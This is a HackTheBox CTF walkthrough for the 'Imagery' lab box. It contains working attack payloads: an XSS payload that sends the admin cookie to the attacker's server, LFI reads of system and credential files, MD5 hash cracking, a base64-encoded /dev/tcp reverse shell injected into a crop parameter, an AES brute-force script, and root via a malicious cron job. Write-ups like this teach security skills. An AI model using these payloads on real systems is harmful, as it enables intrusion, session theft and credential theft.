







# Imagery - HackTheBox Walkthrough

**Difficulty:** medium  
**OS:** linux

## Recon

Lets start by scanning the box. as you can see 2 ports are open, `ssh` and `http` on port 8000 which its using python in the backend

```
┌─[10.10.15.68]─[deadmonarch@parrot]─[~/ctf/HackTheBox/rooms/imagery]
└──╼ [★]$ nmap -A 10.10.11.88
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-01 20:11 +0330
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Nmap scan report for 10.10.11.88
Host is up (0.090s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:94:fb:70:36:1a:26:3c:a8:3c:5a:5a:e4:fb:8c:18 (ECDSA)
|_  256 c2:52:7c:42:61:ce:97:9d:12:d5:01:1c:ba:68:0f:fa (ED25519)
8000/tcp open  http-alt Werkzeug/3.1.3 Python/3.12.7
|_http-server-header: Werkzeug/3.1.3 Python/3.12.7
|_http-title: Image Gallery
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/3.1.3 Python/3.12.7
|     Date: Wed, 01 Oct 2025 16:41:51 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest:
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.1.3 Python/3.12.7
|     Date: Wed, 01 Oct 2025 16:41:45 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 146960
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Image Gallery</title>
|     <script src="static/tailwind.js"></script>
|     <link rel="stylesheet" href="static/fonts.css">
|     <script src="static/purify.min.js"></script>
|     <style>
|     body {
|     font-family: 'Inter', sans-serif;
|     margin: 0;
|     padding: 0;
|     box-sizing: border-box;
|     display: flex;
|     flex-direction: column;
|     min-height: 100vh;
|     position: fixed;
|     top: 0;
|     width: 100%;
|     z-index: 50;
|_    #app-con
```

Lets take a look at the webpage on port 8000. we can't do much without being logged in. we have to register on the site than start some enumerations.


After being logged in, looking at the footer of the webpage, you can see one specific link that is vulnerable to `XSS`.well if you try `` /xss?c=${document.cookie}`) ; /> ``
in the **Bug Detials** as your input, you will get the **admin cookie** by setting up a python listener



```
┌─[10.10.15.68]─[deadmonarch@parrot]─[~/ctf/HackTheBox/rooms/imagery]
└──╼ [★]$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.88 - - [01/Oct/2025 21:27:10] code 404, message File not found
10.10.11.88 - - [01/Oct/2025 21:27:10] "GET /xss?c=session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aN1rdA.yayPFA8Oyh8HHx8_DhsoeZot60o HTTP/1.1" 404 -
10.10.11.88 - - [01/Oct/2025 21:27:10] code 404, message File not found
10.10.11.88 - - [01/Oct/2025 21:27:10] "GET /xss?c=session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aN1rdA.yayPFA8Oyh8HHx8_DhsoeZot60o HTTP/1.1" 404 -
10.10.11.88 - - [01/Oct/2025 21:27:11] code 404, message File not found
10.10.11.88 - - [01/Oct/2025 21:27:11] "GET /xss?c=session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aN1rdA.yayPFA8Oyh8HHx8_DhsoeZot60o HTTP/1.1" 404 -

```

now we have access to admin panel



when admin panel is being loaded, site requests some details about all users. one interesting user is `testuser@imagery.htb` with `"isTestuser": true`,
why is this important? well the site has some features like editing image that is only accessible if user have the `isTestuser: true`, and if you try to manually access the features, backend will respond with `Feature is still in development` but how do we access **testuser** account

```{
    "anyAdminExists": true,
    "success": true,
    "users": [{
        "displayId": "a1b2c3d4",
        "isAdmin": true,
        "isTestuser": false,
        "username": "admin@imagery.htb"
    }, {
        "displayId": "e5f6g7h8",
        "isAdmin": false,
        "isTestuser": true,
        "username": "testuser@imagery.htb"
    }, {
        ...
```

lets see what happens when you try to download a user's log



as you can see `/admin/get_system_log?log_identifier=admin@imagery.htb.log` is taking a file name as input that might be vulnerable to `LFI`.  
and we can read `/etc/passwd`



lets try to get more information about how the backend works.  
`/proc/self/environ`

```LANG=en_US.UTF-8
PATH=/home/web/web/env/bin:/sbin:/usr/bin
USER=web
LOGNAME=web
HOME=/home/web
SHELL=/bin/bash
INVOCATION_ID=b3cb94626efa4160aa2a5c3cabb0f95e
JOURNAL_STREAM=9:18512
SYSTEMD_EXEC_PID=1340
MEMORY_PRESSURE_WATCH=/sys/fs/cgroup/system.slice/flaskapp.service/memory.pressure
MEMORY_PRESSURE_WRITE=c29tZSAyMDAwMDAgMjAwMDAwMAA=
CRON_BYPASS_TOKEN=K7Zg9vB$24NmW!q8xR0p/runL!

```

looking at the `PATH` we learn about these paths that might be interesting. we know backend is using python, what i would do is to first find the `app.py`

```
/home/web
/home/web/web
/home/web/web/env
/home/web/web/env/bin
```

if you try `/home/web/web/app.py` you will get app.py content

```
from flask import Flask, render_template
import os
import sys
from datetime import datetime
from config import *
from utils import _load_data, _save_data
from utils import *
from api_auth import bp_auth
from api_upload import bp_upload
from api_manage import bp_manage
from api_edit import bp_edit
from api_admin import bp_admin
from api_misc import bp_misc

app_core = Flask(__name__)
app_core.secret_key = os.urandom(24).hex()
app_core.config['SESSION_COOKIE_HTTPONLY'] = False

app_core.register_blueprint(bp_auth)
app_core.register_blueprint(bp_upload)
app_core.register_blueprint(bp_manage)
app_core.register_blueprint(bp_edit)
app_core.register_blueprint(bp_admin)
app_core.register_blueprint(bp_misc)

@app_core.route('/')
def main_dashboard():
    return render_template('index.html')
    ...
```

there are so many things to look for from here but lets just take a look at the important parts. fetching `/home/web/web/config.py` will show that backend is using a json file as its database !!!

```
import os
import ipaddress

DATA_STORE_PATH = 'db.json'
UPLOAD_FOLDER = 'uploads'
SYSTEM_LOG_FOLDER = 'system_logs'
```

taking a look at `/home/web/web/db.json` we can see users details with their hash password

```
{
    "users": [{
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            "isAdmin": true,
            "displayId": "a1b2c3d4",
            "login_attempts": 0,
            "isTestuser": false,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
            "isAdmin": false,
            "displayId": "e5f6g7h8",
            "login_attempts": 0,
            "isTestuser": true,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        ...
```

crack the password of the **testuser** account.  
try opening a new browser in incognito mode before login as **testuser** so you don't lose your access as admin, you will need it to fetch backend files for upcoming task

```
┌─[10.10.15.68]─[deadmonarch@parrot]─[~/ctf/HackTheBox/rooms/imagery]
└──╼ [★]$ hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt --show
2c65c8d7bfbca32a3ed42596192384f6:<REDACTED>
```

now we can edit,convert,transform and delete metadata of the image that we upload.
you can also manage and add groups. with what i tried it wasn't vulnerable to `SSTI`



we have `LFI` exploit so why don't we take a look at how these features are working in the backend.
we saw `app.py` was importing some modules, one of them was `api_edit`. this file handles the image editing features.  
send `../../../../../../../home/web/web/api_edit.py` using previous `LFI` exploit.  
if you take a closer look at the `apply_visual_transform()` function where it crops the image, you can see its vulnerable to command injection. its taking user input without sanitizing and putting it all into the `command` variable and executing it



## Initial access

try **crop operation** from **transform image** feature and capture the request with your proxy



```
POST /apply_visual_transform HTTP/1.1
Host: 10.10.11.88:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.88:8000/
Content-Type: application/json
Content-Length: 121
Origin: http://10.10.11.88:8000
DNT: 1
Connection: keep-alive
Cookie: session=.eJxNjTEOgzAMRe_iuWKjRZno2FNELjGJJWJQ7AwIcfeSAanjf_9J74DAui24fwI4oH5-xlca4AGs75BZwM24KLXtOW9UdBU0luiN1KpS-Tdu5nGa1ioGzkq9rsYEM12JWxk5Y6Syd8m-cP4Ay4kxcQ.aN10EA.mFLFctqaAIWVuns9YQgu94ziSsM
Priority: u=0

{
    "imageId":"087f5c69-a896-47f0-8617-b5cf175f7109",
    "transformType":"crop",
    "params":{
        "x":0,
        "y":0,
        "width":193,
        "height":182
    }
}
```

there are multiple ways of how you inject your payload into the parameters. i tried this way and got access

```
...
{
    "imageId":"417713f2-b973-4a50-b036-57f22da87a80",
    "transformType":"crop",
    "params":{
        "x":0,
        "y":"0$(echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTUuNjgvNDQ0NCAwPiYx | base64 -d | bash)",
        "width":165,
        "height":148
    }
}

```

setting up the listener and we have foothold

```
┌─[10.10.15.68]─[deadmonarch@parrot]─[~/ctf/HackTheBox/rooms/imagery]
└──╼ [★]$ nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.88 50882
sh: 0: can't access tty; job control turned off
$ python3 -c "import pty;pty.spawn('/bin/bash')"
web@Imagery:~/web$ ^Z
[1]  + 7749 suspended  nc -nlvp 4444

┌─[10.10.15.68]─[deadmonarch@parrot]─[~/ctf/HackTheBox/rooms/imagery]
└──╼ [★]$ stty raw -echo && fg
[1]  + 7749 continued  nc -nlvp 4444

web@Imagery:~/web$

```

## user.txt

looking at the `/home` directory we see one other user

```
web@Imagery:~/web$ ls -l /home
total 8
drwxr-x--- 4 mark mark 4096 Oct  1 21:47 mark
drwxr-x--- 8 web  web  4096 Oct  1 20:29 web
```

while searching for anything interesting, i found a zipped backup file encrypted with AES encryption
in the `/var/backup` directory

```
web@Imagery:~/web$ ls -la /var/backup
total 22524
drwxr-xr-x  2 root root     4096 Sep 22 18:56 .
drwxr-xr-x 14 root root     4096 Sep 22 18:56 ..
-rw-rw-r--  1 root root 23054471 Aug  6  2024 web_20250806_120723.zip.aes
```

i did copy it to my machine than wrote this python script to brute force the encryption key  
`brute_aes.py`

```
import pyAesCrypt
import sys
from threading import Thread
from queue import Queue

bufferSize = 64 * 1024  # 64KB buffer
q = Queue()

input_file = "web_20250806_120723.zip.aes"
output_file = "web_20250806_120723.zip"
password = ""
password_found = False
counter = 0
wordlist_len = 0


def worker():
    global password_found
    global password
    global q

    while not password_found:
        pwd = q.get()
        try:
            pyAesCrypt.decryptFile(input_file, "tmp", pwd, bufferSize)
            password = pwd
            password_found = True
        except ValueError:
            print(f"Tried: {pwd}")

        q.task_done()


# load rockyou.txt
with open("/usr/share/wordlists/rockyou.txt", "r", errors="ignore") as wordlist:
    print("\rLoading wordlist...", end="")
    for password in wordlist:
        q.put(password.strip())

    print("\r", end=" " * 20)
    print("\rDone")

# using multi thread to speed up the process
threads = []
for _ in range(50):
    wrk = Thread(target=worker, daemon=True)
    threads.append(wrk)
    wrk.start()

for w in threads:
    w.join()

print("\npassword:", password)
pyAesCrypt.decryptFile(input_file, output_file, password, bufferSize)
```

```
┌─(tmp)─[10.10.15.68]─[deadmonarch@parrot]─[~/ctf/HackTheBox/rooms/imagery]
└──╼ [★]$ python brute_aes.py
Done
Tried: iloveyou
Tried: princess
Tried: 123456789
...
Tried: panther
Tried: pantera
Tried: julius

password: <REDACTED>
```

now you should be able to unzip the `web_20250806_120723.zip` file  
looks like it's the backup of `/home/web/web` directory

```
┌─(tmp)─[10.10.15.68]─[deadmonarch@parrot]─[~/ctf/HackTheBox/rooms/imagery]
└──╼ [★]$ unzip web_20250806_120723.zip
...
┌─(tmp)─[10.10.15.68]─[deadmonarch@parrot]─[~/ctf/HackTheBox/rooms/imagery]
└──╼ [★]$ tree -L 2 web
web
├── __pycache__
│   ├── api_admin.cpython-312.pyc
│   ├── api_auth.cpython-312.pyc
│   ├── api_edit.cpython-312.pyc
│   ├── api_manage.cpython-312.pyc
│   ├── api_misc.cpython-312.pyc
│   ├── api_upload.cpython-312.pyc
│   ├── config.cpython-312.pyc
│   └── utils.cpython-312.pyc
├── api_admin.py
├── api_auth.py
├── api_edit.py
├── api_manage.py
├── api_misc.py
├── api_upload.py
├── app.py
├── config.py
├── db.json
├── env
│   ├── bin
│   ├── lib
│   ├── lib64
│   └── pyvenv.cfg
├── system_logs
│   └── admin@imagery.htb.log
├── templates
│   └── index.html
└── utils.py
```

looking at the same `db.json` file we can see 4 users with their password hashes

```
{
    "users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            "displayId": "f8p10uw0",
            "isTestuser": false,
            "isAdmin": true,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
            "displayId": "8utz23o5",
            "isTestuser": true,
            "isAdmin": false,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "mark@imagery.htb",
            "password": "01c3d2e5bdaf6134cec0a367cf53e535",
            "displayId": "868facaf",
            "isAdmin": false,
            "failed_login_attempts": 0,
            "locked_until": null,
            "isTestuser": false
        },
        {
            "username": "web@imagery.htb",
            "password": "84e3c804cf1fa14306f26f9f3da177e0",
            "displayId": "7be291d4",
            "isAdmin": true,
            "failed_login_attempts": 0,
            "locked_until": null,
            "isTestuser": false
        }
        ...
```

we will be able to crack mark's password

```
┌─[10.10.15.68]─[deadmonarch@parrot]─[~/ctf/HackTheBox/rooms/imagery]
└──╼ [★]$ hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt --show
01c3d2e5bdaf6134cec0a367cf53e535:<REDACTED>

```

he reused his password, because of that we can switch to mark and read `user.txt`

```
web@Imagery:~/web$ su mark
Password:
mark@Imagery:/home/web/web$ cd
mark@Imagery:~$ ls
user.txt
mark@Imagery:~$ cat user.txt
<REDACTED>
```

## root.txt

mark can run `charcol` with root privilege. looks like this program is a backup app with some interesting options

```
mark@Imagery:~$ sudo -l
Matching Defaults entries for mark on Imagery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol
```

if you try to run the program and it ask's for password, simply run the program with `-R` to reset the password

```
  -R, "--reset-password-to-default"  : Reset application password to default (requires system password verification).
```

one of the options is cron jobs

```
mark@Imagery:~$ sudo /usr/local/bin/charcol shell
...
  Automated Jobs (Cron):
    auto add --schedule "<cron_schedule>" --command "<shell_command>" --name "<job_name>" [--log-output <log_file>]
      Purpose: Add a new automated cron job managed by Charcol.
      Verification:
        - If '--app-password' is set (status 1): Requires Charcol application password (via global --app-password flag).
        - If 'no password' mode is set (status 2): Requires system password verification (in interactive shell).
      Security Warning: Charcol does NOT validate the safety of the --command. Use absolute paths.
      Examples:
        - Status 1 (encrypted app password), cron:
          CHARCOL_NON_INTERACTIVE=true charcol --app-password <app_password> auto add \
          --schedule "0 2 * * *" --command "charcol backup -i /home/user/docs -p <file_password>" \
          --name "Daily Docs Backup" --log-output <log_file_path>
        - Status 2 (no app password), cron, unencrypted backup:
          CHARCOL_NON_INTERACTIVE=true charcol auto add \
          --schedule "0 2 * * *" --command "charcol backup -i /home/user/docs" \
          --name "Daily Docs Backup" --log-output <log_file_path>
        - Status 2 (no app password), interactive:
          auto add --schedule "0 2 * * *" --command "charcol backup -i /home/user/docs" \
          --name "Daily Docs Backup" --log-output <log_file_path>
          (will prompt for system password)
```

add a cron jobs that runs every minute and execute whatever command as root

```
auto add --schedule "* * * * *" --command "echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTUuNjgvNTU1NSAwPiYx | base64 -d | bash" --name "get_root"
```

setting up a listener and we have root

```
┌─[10.10.15.68]─[deadmonarch@parrot]─[~/ctf/HackTheBox/rooms/imagery]
└──╼ [★]$ nc -nlvp 5555
Listening on 0.0.0.0 5555
Connection received on 10.10.11.88 55458
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
chrome.deb
root.txt
# cat root.txt
<REDACTED>
```
